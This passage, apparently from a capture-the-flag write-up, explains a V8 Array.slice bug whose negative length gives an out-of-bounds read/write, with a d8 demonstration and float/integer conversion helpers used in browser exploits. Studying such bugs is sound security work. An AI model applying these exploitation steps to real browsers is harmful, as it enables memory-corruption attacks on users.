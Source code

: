 The vulnerability is in the new length calculation (`<1>`). For instance, if `count` is 1 and `start` is 4, the length of the array will be set to -1! Surely that won't cause any problems.

As a note, `Array.slice()` takes a `start` and an `end` parameter. `count` is calculated in another part of the code as `end - start`, so the above example can be triggered by calling `slice(4, 5)`:

```
count = end - start  ->  count = 5 - 4  ->  count = 1

newLength = count - start + 2  ->  newLength = 1 - 4 + 2  ->  newLength = -1
```

**What language is this?** Most (all?) of the Javascript builtins in v8 are implemented in [Torque](https://v8.dev/docs/torque), a custom langue meant specifically for working with v8.

Lets fire up the included `d8` shell and try it out. For reasons that I'll explain later, I'll be using an array of floats.

```js
    | > ./d8
    | V8 version 8.7.9
    | d8> a = [0.1, 0.2, 0.3, 0.4, 0.5, 0.6]
    | [0.1, 0.2, 0.3, 0.4, 0.5, 0.6]
<1> | d8> s = a.slice(4, 5)
    | []
<2> | d8> s.length
    | -1
<3> | d8> s[0]
    | 0.5
<4> | d8> s[1]
    | 4.768128617178215e-270
    | d8>
```
 - `<1>` - Our first sign that something is strange. We would normally expect `a.slice(4,5)` to return `[0.5]`, but it looks like we got an empty array.
 - `<2>` - We can see that the vulnerability was triggered, as the length has been set to -1. That's why it's displaying like it's empty.
 - `<3>` - We can see here that the data did in fact get copied over. The first element of the array is 0.5, like we expect.
 - `<4>` - The next element is unexpected, however. First of all it shouldn't exist, the slice _should_ only contain one element. Second, that's an awfully strange value. What's going on here?

The answer is probably obvious if you've done some pwn challenges before. -1, when interpreted as an unsigned integer, is an extremely large value. This is giving us an out of bounds read at `<4>`. The reason for the weird float value is that v8 is taking the next 8 bytes after the array and interpreting them as a IEEE 754 double. Since we can also set values in the array, this gives a relative out of bounds (OOB) read/write!

In order to be truly effective, we'll need a way to translate between the double representation, and the actual bits of the number. I'll steal some code from [here](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)

```js
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```
